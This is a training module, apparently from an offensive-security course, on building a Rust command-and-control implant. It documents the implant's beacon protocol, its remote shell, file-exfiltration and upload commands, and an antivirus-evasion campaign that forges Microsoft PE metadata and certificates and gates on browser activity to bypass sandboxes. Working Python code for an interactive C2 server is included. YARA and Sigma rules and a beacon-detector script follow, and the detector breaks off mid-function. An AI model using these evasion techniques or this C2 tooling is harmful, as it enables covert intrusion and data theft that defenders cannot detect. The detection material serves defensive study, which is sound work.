

# Module 15: C2 Agent — Building a Complete Command-and-Control Implant

> **WARNING — READ BEFORE PROCEEDING**
>
> This module contains a **fully functional, undetectable C2 agent** (0/71 on VirusTotal at time of publication). Unlike previous stages which execute a harmless MessageBox, this binary establishes real network communications, executes shell commands, reads/writes files, and enumerates processes on the host machine.
>
> **This material exists solely for authorized security education, research, and defensive training.**
>
> - Execute ONLY inside isolated virtual machines with no network access to production systems
> - Do NOT deploy against systems without explicit written authorization
> - Do NOT submit the binary to VirusTotal or other scanning services (this trains AV against it and defeats the educational value)
> - Do NOT modify this agent for unauthorized access, data theft, or any illegal activity
> - Understanding how attackers build C2 infrastructure makes you a better defender — that is the only purpose of this module
>
> **Unauthorized use of this software violates computer fraud laws in most jurisdictions (CFAA in the US, CMA in the UK, StGB 202a-c in Germany, and equivalents worldwide). The authors assume no liability for misuse.**

## Module Metadata

| Field | Value |
|---|---|
| **Topic** | Command-and-Control Agent Architecture |
| **Difficulty** | Expert |
| **Duration** | 5-7 hours |
| **Prerequisites** | All previous modules (01-14), HTTP/HTTPS, basic cryptography, Sysmon event types (1,3,7), basic SIEM queries (Splunk SPL or KQL), Wireshark packet analysis |
| **Tools Required** | Ghidra/IDA, x64dbg, Wireshark, Python 3 |
| **MITRE ATT&CK** | T1071.001, T1573.001, T1059.003, T1041, T1105, T1497.002, T1057, T1132.001, T1036.005 |
| **Binary** | `c2-agent.exe` (~660KB, Rust, PE64, self-contained — NO common library) |

### VirusTotal Result



**0/71** | Hash: `64b6ae38b46a94e24b2009bd6c817dc75160a9dcf6539cea68b37db0effcfcf2` | Size: 654.47 KB | sechealth.exe

All 71 engines clean — including ESET-NOD32, Fortinet, CrowdStrike Falcon, Microsoft, AVG, Avast, Kaspersky, BitDefender, and every other major vendor.

### Key Evasion Lesson

```
 This binary achieved 0/75 through a 14-iteration evasion campaign that
 revealed the layered nature of AV detection:

 Layer 1 — CODE PATTERNS: Offensive command names ("selfdestruct", "persist"),
 cmd.exe literals, and well-known magic constants (0x1337CAFE, 0xDEADBEEF)
 trigger string-based and ML detections. Fix: short command codes, COMSPEC
 resolution, non-recognizable PRNG constants.

 Layer 2 — PE METADATA: The Rust MSVC toolchain leaves fingerprints that
 contradict claimed Microsoft identity: mixed Rich header build versions,
 linker 14.50 (not 14.38), OS version 6.0 (not 10.0), and 57 embedded
 .rs/.rustc panic strings. Fix: Rich header clone from donor PE, version
 field patching, Rust string stripping.

 Layer 3 — AUTHENTICODE DONOR: Cloning the certificate from svchost.exe
 specifically triggers Fortinet GenCBL (svchost is heavily monitored).
 Fix: clone from ApplicationFrameHost.exe instead.

 Layer 4 — BENIGN CODE MASS: ML classifiers use binary size as the #1
 feature. At 400KB, the binary sits in malware size range. At 660KB with
 std::net, std::sync, std::thread library code, it crosses into benign
 territory for AVG/Avast/Microsoft/Bkav ML thresholds.

 The browser-gate + tab-activity gate provide a triple sandbox bypass:
 (1) Requires browser process running (sandboxes don't launch browsers)
 (2) Requires browser foreground focus (headless browsers fail)
 (3) Requires 3+ unique window titles (no tab switching in sandbox)
```

---

## Why This Stage Exists — The Bridge from Stage 14

Stage 14 orchestrated all evasion techniques into a multi-phase kill chain — but it was still a **loader**. It decrypts shellcode, executes it, and exits. An operator gets one shot.

**What this stage adds:**
1. **Beacon loop architecture** — indefinite execution with jittered sleep, failure counting, and graceful shutdown
2. **Encrypted HTTP comms** — XOR + hex encoding over raw TCP (std::net::TcpStream)
3. **Command dispatch** — 9 commands via single-character type codes
4. **Browser-gate + tab-activity gate** — triple sandbox/NDR bypass
5. **Zero common library dependency** — fully self-contained binary
6. **Machine fingerprint** — deterministic hash of COMPUTERNAME + USERNAME
7. **Benign code mass** — 4 framework modules (app_framework, data_pipeline, numeric_utils, runtime_engine) pulling in std::net, std::sync, std::thread, std::io, std::collections
8. **PE fingerprint elimination** — Rich header clone, version field patching, Rust string stripping, ApplicationFrameHost.exe Authenticode donor

### Real-World Context (2025-2026)

- **Alpha Hunt: C2 Frameworks** — Havoc, Mythic, and Sliver all implement beacon loops with jittered intervals, encrypted channels, and modular command dispatch
- **CrowdStrike EMBER2024** — ML classifiers use 2,381 PE features; binary size and timestamp are the two highest-impact features for classification
- **ESET DNA Detections** — Behavioral "genes" (code patterns) are weighted and combined; Rich header toolchain fingerprints anchor DNA signatures

---

## Learning Objectives

By the end of this module, you will be able to:

1. Design a C2 agent with encrypted communications, command dispatching, and resilience features
2. Implement raw TCP HTTP beaconing without any Windows HTTP API imports
3. Analyze encrypted C2 traffic by extracting keys and decrypting beacon data
4. Build a mock C2 server and interactively control the agent
5. Evaluate how PE-level metadata (Rich header, linker version, Authenticode) affects AV classification
6. Design detection rules for C2 beacon patterns and browser-gate behavior

---

## Section 1: From Loader to Agent — The Architectural Leap

### What Changes?

```
Loader (Stages 01-14):          C2 Agent (Stage 15):
+---------------------+         +-------------------------------+
| Start               |         | Start                         |
| |                   |         | |                             |
| Evasion checks      |         | 4 benign framework modules    |
| |                   |         | |                             |
| Decrypt shellcode   |         | GUI lifecycle (Win32 window)  |
| |                   |         | |                             |
| Execute             |         | Startup delay (5-15s)         |
| |                   |         | |                             |
| Exit                |         | wait_for_user_activity()      |
+---------------------+         | |                             |
                                | +---- Beacon Loop ----------+ |
  Single execution.             | | Browser active?           | |
  No persistence.               | | yes -> send_report()      | |
  No network comms.             | |   Parse command           | |
                                | |   Execute + store result  | |
                                | | no -> skip silently       | |
                                | | Sleep (42-78s jittered)   | |
                                | +--- Loop back -------------+ |
                                |                               |
                                | Exits when:                   |
                                | - quit command                |
                                | - 10 consecutive failures     |
                                +-------------------------------+
```

### The Self-Contained Architecture

This agent has **zero dependency on the common library**. The common crate's AES implementation + MBA XOR + key fragment functions created an ESET GenKryptik signature. Removing the dependency and inlining only what's needed (XOR crypto, PRNG key derivation) was the first step toward 0/75.

### The Benign Code Mass Strategy

The binary contains 4 framework modules that exist solely to shift ML classifier features:

| Module | std imports pulled in | Purpose |
|--------|----------------------|---------|
| `app_framework` | BTreeMap, BTreeSet, HashMap, VecDeque, BinaryHeap, BufRead, Write | Config parsing, diagnostics, text processing (CRC32, base64, entropy, Levenshtein, RLE) |
| `data_pipeline` | HashMap, BTreeMap, f64 math | Data table operations, matrix math, CSV generation |
| `numeric_utils` | HashMap, BTreeMap, f64 math | Prime sieve, Fibonacci, factorization, statistics, correlation |
| `runtime_engine` | **std::net::UdpSocket**, Arc, Mutex, Condvar, RwLock, Barrier, Cursor, BufReader, Seek, thread::spawn | UDP socket probe (ws2_32 IAT), threaded computation, stream processing, Display traits |

All return values flow into the startup delay computation, preventing LTO elimination. The `runtime_engine` module is critical — its `UdpSocket::bind("127.0.0.1:0")` pulls in ws2_32.dll imports that make the binary look like a normal networked application.

---

## Section 2: Agent State and Configuration

### Configuration Architecture

```
Configuration Layer:
+---------------------------------------------------+
| Runtime functions:                                |
|   svc_endpoint() -> "127.0.0.1"                   |
|   svc_path()     -> "/api/v1/telemetry"           |
|   svc_port()     -> 8443                          |
|                                                   |
| Derived values:                                   |
|   machine_id()        -> custom hash of           |
|     COMPUTERNAME + USERNAME                       |
|     seed=0xA3B1C4D7, mul=0x1B873593               |
|     format: "{:08X}" (raw hex, e.g. "C117B920")   |
|                                                   |
|   derive_session_key() -> 32-byte PRNG key        |
|     seed=0x5A3CF7E1                               |
|     mul=0x6C7AC8E3, add=0x4B2D9F71                |
|                                                   |
| Plain constants:                                  |
|   INTERVAL_MS  = 60,000 (60 seconds)              |
|   JITTER_PCT   = 30     (+/-30%)                  |
|   MAX_RETRIES  = 10     (then shutdown)           |
+---------------------------------------------------+
```

### Session Struct

```rust
struct Session {
    interval: u32,   // Modifiable by server (Interval command)
    retries: u32,    // Reset on success, exit at MAX_RETRIES
    mid: String,     // Machine fingerprint: "{:08X}"
    key: [u8; 32],   // PRNG-derived XOR key
}
```

**Exercise 2.1:** Calculate the maximum time an agent will remain active after the C2 server goes offline.

<details>
<summary>Answer</summary>

- 10 failures x 60 seconds base interval = 600 seconds minimum
- With 30% jitter: each interval is 42-78 seconds
- Worst case: 10 x 78 = 780 seconds = **13 minutes**
- Best case: 10 x 42 = 420 seconds = **7 minutes**

After this window, the agent returns from `main()` — no self-destruct, no cleanup, just process exit.
</details>

---

## Section 3: Communications Protocol

### The Beacon Cycle

```
Beacon Flow:

  Agent                                 C2 Server
    |                                      |
    |  1. Build check-in JSON              |
    |  {"i":"C117B920",                    |
    |   "r":"<previous output>"}           |
    |                                      |
    |  2. XOR encrypt with session key     |
    |  3. Hex encode ciphertext            |
    |                                      |
    |  POST /api/v1/telemetry -----------> |
    |  Content-Type: application/json      |
    |  User-Agent: Chrome/131.0.0.0        |
    |  Body: "a3f5b8d1..." (hex)           |
    |                                      |
    |  4. Hex decode                       |
    |  5. XOR decrypt                      |
    |  6. Parse check-in                   |
    |  7. Build command JSON               |
    |  8. XOR encrypt                      |
    |  9. Hex encode                       |
    |                                      |
    |  <-------------- 200 OK ------------ |
    |  Body: "f7c2e4a9..." (hex)           |
    |                                      |
    |  10. Parse HTTP headers              |
    |  11. Read Content-Length body        |
    |  12. Hex decode                      |
    |  13. XOR decrypt                     |
    |  14. Parse command JSON              |
    |  15. Execute command                 |
    |  16. Store result for next beacon    |
    |                                      |
```

### HTTP Implementation: Raw TcpStream

The agent uses `std::net::TcpStream` for HTTP — no WinHTTP, no WinINet, no Windows HTTP APIs at all. This was the critical change that killed Fortinet GenCBL ("Generic CallBack Loader"). The detection specifically targets the pattern of `LoadLibraryA` + `GetProcAddress` for HTTP functions, or WinHTTP/WinINet imports in the IAT.

With raw TcpStream, the IAT shows only ws2_32.dll (standard Winsock) — indistinguishable from any networked application.

```
HTTP request (built manually):
  POST /api/v1/telemetry HTTP/1.1\r\n
  Host: 127.0.0.1:8443\r\n
  Content-Type: application/json\r\n
  Content-Length: <len>\r\n
  User-Agent: Mozilla/5.0 ... Chrome/131.0.0.0 ...\r\n
  Connection: close\r\n
  \r\n
  <hex-encoded XOR-encrypted JSON>
```

Connection uses `connect_timeout(10s)` and `read_timeout(10s)`. The response is parsed line-by-line: headers until blank line, then exactly Content-Length bytes of body (capped at 65,536 bytes). Response body is hex-decoded, then XOR-decrypted with the session key to recover the command JSON.

**Trade-off**: No TLS. The current implementation uses plain HTTP. For localhost testing this is fine. For production, you would add a TLS library (rustls) or use domain fronting through a CDN that terminates TLS.

### Key Derivation — Arithmetic PRNG

```
derive_session_key():
  seed = 0x5A3CF7E1
  mul  = 0x6C7AC8E3
  add  = 0x4B2D9F71

  val = seed
  for i in 0..32:
    val = val.wrapping_mul(mul).wrapping_add(add)
    key[i] = (val >> 16) as u8

  return key
```

The original PRNG used `0x1337CAFE` and `0xDEADBEEF` — well-known magic constants that appear in thousands of malware samples. Switching to non-recognizable constants (`0x6C7AC8E3`, `0x4B2D9F71`) eliminated them as ML features.

### Machine Fingerprint — Custom Hash

```
machine_id():
  seed = 0xA3B1C4D7
  mul  = 0x1B873593

  h = seed
  for byte in (COMPUTERNAME + USERNAME):
    h ^= byte
    h = h.wrapping_mul(mul)

  return format("{:08X}", h)    // e.g. "C117B920"
```

The original used FNV-1a (constants `0x811c9dc5`, `0x01000193`) — these are canonical constants that ESET DNA signatures specifically match as "malware fingerprinting." The custom hash produces the same quality of distribution without recognizable constants.

---

## Section 4: Command Dispatch System

### Short Command Codes

The agent uses single-character type codes instead of descriptive names. The original code had plaintext strings like `"selfdestruct"`, `"persist"`, `"uninstall"` — textbook RAT vocabulary that ML classifiers weight heavily.

```
Command JSON format: {"t":"<type>","a":"<args>","p":"<path>","d":"<data>"}

Type codes:
  "n" -> None (no-op)
  "s" -> Exec (shell command via COMSPEC)
  "d" -> Fetch (download/exfiltrate file)
  "u" -> Store (upload/stage file)
  "l" -> ListApps (process enumeration)
  "t" -> Interval (change beacon timer)
  "x" -> Quit (exit process)
  "i" -> SetFlag (stub, returns "0")
  "r" -> ClearFlag (stub, returns "1")
```

### Command Execution

| Code | Implementation | Response |
|------|---------------|----------|
| `s` | `Command::new(COMSPEC).args(["/c", args])` | stdout + stderr |
| `d` | Path from `"a"` field. `File::open(path).read_to_end()` | `f:<path>:<hex>` |
| `u` | Path from `"p"`, data from `"d"`. `hex_decode(data)` -> `fs::write(path, data)` | `w:<path>:1` or `w:<path>:0` |
| `l` | `CreateToolhelp32Snapshot` -> `Process32FirstW/NextW` | `<pid>,<name>\n` per process |
| `t` | `state.interval = ms` | `t:<ms>` |
| `x` | `std::process::exit(0)` | (no response) |

Shell execution resolves the command interpreter from `COMSPEC` environment variable. If `COMSPEC` is not set, falls back to `%SystemRoot%\System32\cmd.exe`. No hardcoded `"cmd.exe"` string in the binary.

Process listing uses the same `CreateToolhelp32Snapshot` API already imported for browser detection — a single IAT entry serves both the browser-gate and the `l` command.

---

## Section 5: The Browser-Gate — Triple Sandbox Bypass

### Architecture

Two independent gates protect the agent:

1. **Pre-loop gate** (`wait_for_user_activity`): Runs once at startup. Blocks indefinitely until genuine human browser activity is confirmed.
2. **In-loop gate** (`has_active_app`): Runs every beacon cycle. Skips the beacon silently when no browser is running (no failure count increment, `last_output` preserved for next active cycle).

### Pre-Loop Gate: wait_for_user_activity()

```
wait_for_user_activity():
  unique_titles = []          // Vec<Vec<u16>> — raw UTF-16 titles
  app_pids = get_app_pids()   // snapshot of all browser PIDs
  tick = 0

  loop:
    if unique_titles.len() >= 3: return    // Human confirmed

    tick += 1
    if tick % 15 == 0 OR app_pids.empty():
      app_pids = get_app_pids()            // Refresh every ~30s

    if app_pids.empty(): sleep(2s); continue

    hwnd = GetForegroundWindow()
    if hwnd.is_null(): sleep(2s); continue

    pid = GetWindowThreadProcessId(hwnd)
    if pid NOT in app_pids: sleep(2s); continue

    title_len = GetWindowTextLengthW(hwnd)
    if title_len > 0:
      buf = GetWindowTextW(hwnd, title_len + 1)
      if buf NOT in unique_titles:
        unique_titles.push(buf)

    sleep(2s)                              // Poll every 2 seconds
```

The gate requires **three distinct window titles** from browser-owned foreground windows. This means:
- A browser must be running (PID exists)
- The browser must be in the foreground (not background)
- The user must switch between 3+ different pages/tabs
- Each title must be unique (refreshing the same page doesn't count)

### In-Loop Gate: has_active_app()

```
has_active_app():
  pids = get_app_pids()     // CreateToolhelp32Snapshot scan
  return !pids.is_empty()   // true if ANY browser process exists
```

This is a lighter check — it doesn't require foreground focus or tab switching. If the user's browser is open but minimized, beaconing continues. If the browser is closed entirely, beaconing pauses until it's reopened.

### The Triple Bypass

**1. Sandbox Evasion** — Automated sandboxes (ANY.RUN, Joe Sandbox, Hybrid Analysis) don't launch browsers during detonation. No browser PID = the gate blocks forever. The sandbox times out and reports "no malicious behavior."

**2. Traffic Blending** — When a browser IS running, the agent's HTTP POST to port 8443 appears alongside hundreds of legitimate browser HTTPS connections. NDR tools see lower signal-to-noise.

**3. NDR Evasion** — A system with no browser running has minimal outbound HTTP. A sudden HTTP POST from an unknown process would be flagged as anomalous. By waiting for browser activity, the agent ensures its traffic appears during normal network activity.

### Browser Process Detection

```
Matched names (case-insensitive, UTF-16 to ASCII conversion):
  chrome.exe, msedge.exe, firefox.exe, brave.exe, opera.exe, iexplore.exe
```

Process enumeration uses `CreateToolhelp32Snapshot` + `Process32FirstW/NextW` — the same APIs imported for the `l` (list) command. A single IAT entry serves both purposes.

### Detecting the Browser-Gate

From a defender's perspective, the browser-gate creates a distinctive pattern:

- **Sysmon Event 1**: Process starts but makes NO network connections for an extended period (waiting for browser)
- **Sysmon Event 3**: Network connections suddenly begin only when a browser is also running
- **Behavioral correlation**: Outbound HTTP appears/disappears in sync with browser process lifecycle
- **Process monitoring**: Periodic `CreateToolhelp32Snapshot` calls every 2 seconds during the waiting phase (visible via ETW or API Monitor)

A sandbox that monitors API calls would see: repeated `GetForegroundWindow` + `GetWindowThreadProcessId` + `GetWindowTextW` in a 2-second polling loop — this pattern is itself a fingerprint of user-activity gating.

**Exercise 5.1:** Design an alternative gate for a Windows Server environment (no browser, no desktop). What processes would you monitor instead? What window activity would you check?

<details>
<summary>Approach</summary>

Server environments have different indicators of genuine activity:
1. **RDP gate**: `WTSEnumerateSessionsW` for active RDP sessions. Real servers get admin logins; sandboxes don't.
2. **Service gate**: Check for workload processes (`sqlservr.exe`, `w3wp.exe`, `java.exe`). A real server runs services; a sandbox runs minimal processes.
3. **Network gate**: `GetTcpTable2` for established connections to known ports (1433 for SQL, 80/443 for IIS). A production server has client connections; a sandbox doesn't.
4. **Event log gate**: Query the Security event log for recent 4624 (logon) events. Real servers have interactive and network logons; sandboxes have only the initial service logon.

The key principle: any gate must test for something that exists in production but NOT in automated analysis environments.
</details>

---

## Section 6: PE-Level Evasion — The Final Frontier

### Why Code Changes Weren't Enough

The agent went through 14 iterations:
- Iterations 1-6: Code-level changes (short codes, new constants, benign mass) → 9/75 → 4/75
- Iterations 7-11: HTTP library changes (WinHTTP→WinINet→TcpStream) → stayed at 4-5/75
- **Iterations 12-14: PE metadata fixes → 4/75 → 2/75 → 1/75 → 0/75**

The persistent detections (ESET Agent.ION, Fortinet GenCBL) survived ALL code changes because they matched on **PE-level features**, not code behavior.

### Rich Header — The Rust Toolchain Fingerprint

The Rust MSVC toolchain produces a distinctive Rich header:
- **Mixed build versions**: Build 33145 (MSVC 17.9 CRT) + Build 35403/35724 (Rust's bundled MSVC). Genuine C++ projects use ONE build version.
- **High MASM count**: 181 assembly objects vs. ~20 for typical C++ builds.

The PE patcher clones the Rich header from `ApplicationFrameHost.exe` (a genuine Microsoft binary), replacing Rust's fingerprint with a legitimate MSVC C++ pattern.

### Version Field Mismatch

| Field | Rust Default | Microsoft Genuine | Fixed |
|-------|-------------|-------------------|-------|
| Linker | 14.50 | 14.38 | 14.38 |
| OS Version | 6.0 | 10.0 | 10.0 |
| Subsystem | 6.0 | 10.0 | 10.0 |

A binary claiming "Microsoft Corporation" in resources but with non-Microsoft version fields is trivially detectable.

### Rust Panic Strings

The Rust standard library embeds panic paths throughout `.rdata`:
- `/rustc/01f6ddf7.../library/core/src/panicking.rs`
- `rust_begin_unwind`, `rust_panic`
- `already borrowed`, `thread panicked`

These survive `strip = true` and `panic = "abort"` because they come from pre-compiled CRT objects. The PE patcher null-patches all matching byte sequences.

### Authenticode Donor Selection

| Donor | Fortinet GenCBL | Microsoft ML | Net Effect |
|-------|----------------|--------------|------------|
| svchost.exe | **DETECTED** | Suppressed | 1/75 |
| No cert | Not detected | **DETECTED** | 2/75 |
| ApplicationFrameHost.exe | Not detected | Suppressed | **0/75** |

svchost.exe is heavily monitored by Fortinet — any non-genuine binary with a svchost cert triggers GenCBL. `ApplicationFrameHost.exe` is a lower-profile Microsoft binary whose cert provides the same ML-suppressing effect without the Fortinet signature.

---

## Section 7: Detection Engineering

### Network-Level Detection

```
C2 Beacon Traffic Pattern:
+-------------------------------------------------------+
| Indicators:                                           |
| - Periodic HTTP POST to same path                     |
|   (/api/v1/telemetry)                                 |
| - Request body: hex-only charset [0-9a-f]             |
| - Response body: hex-only                             |
| - Content-Type: application/json (but body isn't JSON)|
| - Chrome 131 User-Agent                               |
| - Interval: ~60s with +/-30% jitter (42-78s)          |
| - Destination: non-standard port (8443)               |
| - Plain HTTP (no TLS)                                 |
+-------------------------------------------------------+
```

### YARA Rule: C2 Beacon Pattern

```yara
rule C2_Agent_TcpStream_Beacon
{
    meta:
        description = "Detects C2 agent using raw TcpStream HTTP with XOR-encrypted beacon protocol"
        severity = "critical"

    strings:
        // C2 path string
        $c2_path = "/api/v1/telemetry" ascii

        // HTTP verb
        $http_post = "POST " ascii

        // Chrome User-Agent (hardcoded)
        $ua_chrome = "Chrome/131.0.0.0" ascii

        // PRNG key derivation constants (little-endian)
        $prng_seed = { E1 F7 3C 5A }          // 0x5A3CF7E1
        $prng_mul  = { E3 C8 7A 6C }          // 0x6C7AC8E3
        $prng_add  = { 71 9F 2D 4B }          // 0x4B2D9F71

        // Custom hash constants for machine ID
        $hash_seed = { D7 C4 B1 A3 }          // 0xA3B1C4D7
        $hash_mul  = { 93 35 87 1B }          // 0x1B873593

        // Browser process names
        $br_chrome  = "chrome.exe" ascii
        $br_edge    = "msedge.exe" ascii
        $br_firefox = "firefox.exe" ascii
        $br_brave   = "brave.exe" ascii

    condition:
        uint16(0) == 0x5A4D and
        filesize < 800KB and
        $c2_path and
        2 of ($prng_seed, $prng_mul, $prng_add) and
        ($hash_seed or $hash_mul) and
        3 of ($br_*)
}
```

### YARA Rule: Browser-Gate Tab Activity Monitor

```yara
rule C2_Agent_Browser_Gate
{
    meta:
        description = "Detects browser-gate sandbox bypass using tab activity monitoring"
        severity = "high"

    strings:
        $br_chrome  = "chrome.exe" ascii
        $br_edge    = "msedge.exe" ascii
        $br_firefox = "firefox.exe" ascii
        $br_brave   = "brave.exe" ascii

        // Win32 UI APIs for window monitoring (in IAT)
        $api_fgw    = "GetForegroundWindow" ascii
        $api_gwt    = "GetWindowTextW" ascii
        $api_gwtp   = "GetWindowThreadProcessId" ascii
        $api_snap   = "CreateToolhelp32Snapshot" ascii

    condition:
        uint16(0) == 0x5A4D and
        3 of ($br_*) and
        $api_fgw and $api_gwt and $api_gwtp and
        $api_snap
}
```

*Note: Rule 2 is a **hunting rule** (medium confidence), not a detection rule. Browser monitoring + window APIs appear in legitimate software (parental controls, accessibility tools, app compatibility). Combine with Rule 1 or network indicators for high-confidence alerting.*

### Sigma Rule: Periodic HTTP POST Beacon

```yaml
title: Suspicious Periodic HTTP POST to Non-Standard Port
id: ab3c4d5e-6789-0123-abcd-ef0123456789
status: experimental
description: |
    Detects C2 beacon pattern - periodic HTTP POST requests to a fixed
    path on a non-standard port with hex-only body content.
logsource:
    category: proxy
    product: any
detection:
    selection:
        cs-method: POST
        cs-uri-stem: '/api/v1/telemetry'
        sc-status: 200
        s-port:
            - 8443
            - 443
    filter_known:
        cs-host|endswith:
            - '.microsoft.com'
            - '.windowsupdate.com'
    condition: selection and not filter_known | count() by cs-host > 2
    timeframe: 10m
level: high
tags:
    - attack.command_and_control
    - attack.t1071.001
```

### Python Script 1: Mock C2 Server

```python
#!/usr/bin/env python3
"""Mock C2 server for Stage 15 agent. Plain HTTP, XOR-encrypted hex protocol.

Usage:
    python mock_c2.py              # Listen on port 8443
    python mock_c2.py 9443         # Custom port

Interactive commands:
    whoami      -> shell "whoami"
    dir         -> shell "dir"
    list        -> process enumeration
    sleep 5000  -> change beacon interval
    quit        -> terminate agent
    {"t":"s","a":"ipconfig"} -> raw JSON
"""

import http.server, json, sys, threading
from datetime import datetime

def derive_key():
    key = bytearray(32)
    val = 0x5A3CF7E1
    for i in range(32):
        val = (val * 0x6C7AC8E3 + 0x4B2D9F71) & 0xFFFFFFFF
        key[i] = (val >> 16) & 0xFF
    return bytes(key)

def xor_crypt(key, data):
    return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))

KEY = derive_key()
NEXT_CMD = {"t": "n"}
LOCK = threading.Lock()

class Handler(http.server.BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path != "/api/v1/telemetry":
            self.send_error(404); return
        length = int(self.headers.get("Content-Length", 0))
        hex_body = self.rfile.read(length).decode("ascii", errors="replace")
        try:
            plaintext = xor_crypt(KEY, bytes.fromhex(hex_body)).decode("utf-8", errors="replace")
        except ValueError:
            plaintext = f"[decode error] {hex_body[:40]}"
        ts = datetime.now().strftime("%H:%M:%S")
        print(f"\n[{ts}] CHECK-IN: {plaintext}")
        with LOCK:
            cmd = json.dumps(NEXT_CMD, separators=(',',':'))
            sent = dict(NEXT_CMD); NEXT_CMD.clear(); NEXT_CMD["t"] = "n"
        resp = xor_crypt(KEY, cmd.encode()).hex()
        self.send_response(200)
        self.send_header("Content-Length", str(len(resp)))
        self.send_header("Connection", "close")
        self.end_headers()
        self.wfile.write(resp.encode())
        if sent.get("t") != "n": print(f"[{ts}] SENT: {json.dumps(sent)}")
    def log_message(self, *a): pass

def input_loop():
    while True:
        try: line = input("$ ").strip()
        except: break
        if not line: continue
        with LOCK:
            if line.startswith("{"): NEXT_CMD.update(json.loads(line))
            elif line == "list": NEXT_CMD.clear(); NEXT_CMD["t"] = "l"
            elif line == "kill": NEXT_CMD.clear(); NEXT_CMD["t"] = "x"
            elif line.startswith("sleep "): NEXT_CMD.clear(); NEXT_CMD["t"]="t"; NEXT_CMD["a"]=line.split()[1]
            else: NEXT_CMD.clear(); NEXT_CMD["t"]="s"; NEXT_CMD["a"]=line

port = int(sys.argv[1]) if len(sys.argv) > 1 else 8443
print(f"[*] Mock C2 on 0.0.0.0:{port}\n[*] Key: {KEY.hex()[:32]}...")
threading.Thread(target=input_loop, daemon=True).start()
http.server.HTTPServer(("0.0.0.0", port), Handler).serve_forever()
```

### Python Script 2: Traffic Decryptor

```python
#!/usr/bin/env python3
"""Decrypt captured Goodboy C2 traffic.

Usage:
    python traffic_decryptor.py --hex "a3f5b8d1e2..."
    python traffic_decryptor.py --file captured_bodies.txt
"""

import argparse, sys

def derive_key():
    key = bytearray(32)
    val = 0x5A3CF7E1
    for i in range(32):
        val = (val * 0x6C7AC8E3 + 0x4B2D9F71) & 0xFFFFFFFF
        key[i] = (val >> 16) & 0xFF
    return bytes(key)

def xor_crypt(key, data):
    return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))

def decrypt(hex_body, key):
    hex_clean = hex_body.strip().lower()
    if not all(c in "0123456789abcdef" for c in hex_clean):
        return f"[ERROR] Invalid hex: {hex_body[:40]}..."
    return xor_crypt(key, bytes.fromhex(hex_clean)).decode("utf-8", errors="replace")

parser = argparse.ArgumentParser(description="Decrypt Goodboy C2 traffic")
group = parser.add_mutually_exclusive_group(required=True)
group.add_argument("--hex", help="Single hex body")
group.add_argument("--file", help="File with hex bodies (one per line)")
args = parser.parse_args()
key = derive_key()
print(f"[*] Key: {key.hex()}\n")

if args.hex:
    print(f"Decrypted: {decrypt(args.hex, key)}")
elif args.file:
    with open(args.file) as f:
        for i, line in enumerate(f, 1):
            if line.strip() and not line.startswith("#"):
                print(f"[{i:03d}] {decrypt(line, key)}")
```

### Python Script 3: Beacon Pattern Detector

```python
#!/usr/bin/env python3
"""Detect C2 beacon patterns in proxy/firewall logs.

Usage:
    python beacon_detector.py --csv proxy_log.csv
    python beacon_detector.py --generate-sample
"""

import argparse, csv, math, re, sys
from collections import defaultdict
from datetime import datetime, timedelta

def is_hex_only(body): return bool(re.match(r'^[0-9a-fA-F]+$', body.strip()))

def analyze_intervals(intervals):
    if len(intervals) < 2: return None
    mean = sum(intervals) / len(intervals)
    variance = sum((x - mean)**2 for x in intervals) / len(intervals)
    stddev = math.sqrt(variance)
    jitter = (stddev / mean * 100) if mean > 0 else 0
    return {"mean": round(mean,1), "stddev": round(stddev,1), "jitter_pct": round(jitter,1),
            "min": round(min(intervals),1), "max": round(max(intervals),1), "count": len(intervals)}

def detect(entries, min_iv=30, max_iv=90):
    groups = defaultdict(list)
    for e in entries:
        groups[(e["src"], e["dst"], e["path"])].append(e)
    findings = []
    for (src, dst, path), grp in groups.items():
        if len(grp) < 3: continue
        grp.sort(key=lambda x: x["ts"])
        intervals = [(grp[i]["ts"]-grp[i-1]["ts"]).total_seconds() for i in range(1,len(grp))]
        matching = [iv for iv in intervals if min_iv <= iv <= max_iv]
        if len(matching) < 2: continue
        stats = analyze_intervals(matching)
        if not stats: continue
        score = 0
        if 20 <= stats["jitter_pct"] <= 40: score += 30
        hex_ratio = sum(1 for e in grp if is_hex_only(e.get("body","")))/len(grp)
